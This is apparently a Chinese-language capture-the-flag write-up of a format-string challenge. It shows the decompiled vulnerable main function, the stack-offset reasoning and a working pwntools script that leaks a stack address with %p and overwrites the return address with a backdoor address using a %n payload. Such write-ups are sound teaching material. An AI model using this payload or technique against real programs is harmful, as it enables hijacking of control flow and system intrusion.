

本题核心点在于格式化字符串的利用.

main函数：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[48]; // [rsp+0h] [rbp-70h] BYREF
  char format[56]; // [rsp+30h] [rbp-40h] BYREF
  unsigned __int64 v6; // [rsp+68h] [rbp-8h]
 
  v6 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  puts("\n\x1B[33m---------------------------------------------");
  puts("----------\x1B[0m\x1B[34mWelcome_to_address_SYSTEM\x1B[0m\x1B[33m----------");
  puts("---------------------------------------------\x1B[0m\n");
  puts("\x1B[32;5mWhere is XiaoMing's Home?\x1B[0m");
  read(0, buf, 0x30uLL);
  printf(buf);
  puts("\x1B[32;5mAnd where is XiaoHong's?\x1B[0m");
  read(0, format, 0x30uLL);
  printf(format);
  return 0;
}
```

对于这种 `printf` 没有任何限制条件的情况，我们可以利用格式化字符串漏洞
首先我们利用 `%p` 得到 `ret` 寄存器的地址
然后计算偏移



偏移为13
然后我们找到后门函数的地址`0x40159C=4199836(十进制)`
可以构造`%4199836c%14$lln`

```python
from pwn import*
p = remote("10.102.32.142", 40682)
p.recv()
p.send(b'aaaa-%p')
p.recvuntil(b'Home?\x1b[0m\n')
addr = p.recv()[5:19]
Addr = int(addr ,16)
offset = 0x70+8
ret_addr = Addr+offset
payload = b'%4199836c%14$lln'+p64(ret_addr)
p.sendline(payload)
p.interactive()
```
